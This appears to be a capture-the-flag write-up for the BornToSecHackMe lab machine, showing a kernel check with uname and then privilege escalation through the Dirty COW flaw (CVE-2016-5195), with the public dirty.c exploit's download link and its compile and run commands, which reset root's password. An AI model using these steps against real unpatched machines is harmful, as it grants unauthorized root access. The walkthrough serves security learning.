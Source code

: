 ## Dirty COW (CVE-2016-5195)

After gaining access to vulnirable machine as chown in writeup1, and as part of machine discovery i checked the kernel version with "uname -a".
```
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
with some research this kernel version vulnerable to dirty cow vulnerability.
#### + download the exploit:
```
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
```

#### + compile the exploit with :
```
gcc -pthread dirty.c -o dirty -lcrypt
```

#### + run the newly create binary by either doing:
```
"./dirty" or "./dirty my-new-password"
```
### Ressources:
* [dirty cow](https://dirtycow.ninja/)
* [liveoverflow explaination](https://youtu.be/kEsshExn7aE)
* [medium article explaining dirty cow](https://0xcd4.medium.com/the-dirty-cow-race-condition-attack-7ba27f78f865)
* [understanding race condition, and dirty cow vulnerability](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html)

